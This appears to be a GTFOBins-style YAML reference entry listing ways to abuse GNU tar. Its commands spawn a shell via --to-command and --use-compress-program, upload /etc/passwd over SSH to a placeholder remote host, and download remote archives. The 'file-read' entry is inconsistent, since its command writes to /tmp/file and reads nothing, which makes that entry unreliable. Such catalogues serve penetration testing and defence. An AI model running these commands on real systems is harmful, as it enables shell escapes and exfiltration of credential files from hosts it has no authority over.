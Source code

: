 ```yaml
---
functions:
  shell:
    - description: The --to-command is normally used to pipe extracted files to a command. This can be used to run arbitrary commands on a host. The file must be a valid archive file.
      code: |
        tar xf /tmp/valid.tar --to-command='/bin/sh -c "sh <&2 1>&2"'
    - description: Similar to the above, but at a previous stage in the extraction. A valid archive is not required. This functionality can be abused in various ways for file-read and file-write (see below).
      code: |
        tar xf /dev/null --use-compress-program='/bin/sh -c "sh <&2 1>&2"'
  file-upload:
    - description: This only works for GNU tar. Create tar archive and send it via SSH to a remote location. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
      code: |
        tar cvf remote_user@remote_host.com:/tmp/remote_file.tar /etc/passwd --rsh-command=/bin/ssh
  file-download:
    - description: GNU tar has remote archive capabilities, which can be used to download and extract remote archives. The remote machine should have the `rmt` utility installed and configured.
      code: |
        tar xvf remote_user@remote_host.com:/tmp/remote_file --rsh-command=/bin/ssh
  file-read:
    - description: The --use-compress-program flag can be abused to read files.
      code: |
        tar xf /etc/passwd --use-compress-program='/bin/sh -c "echo hello > /tmp/file"'
---
```

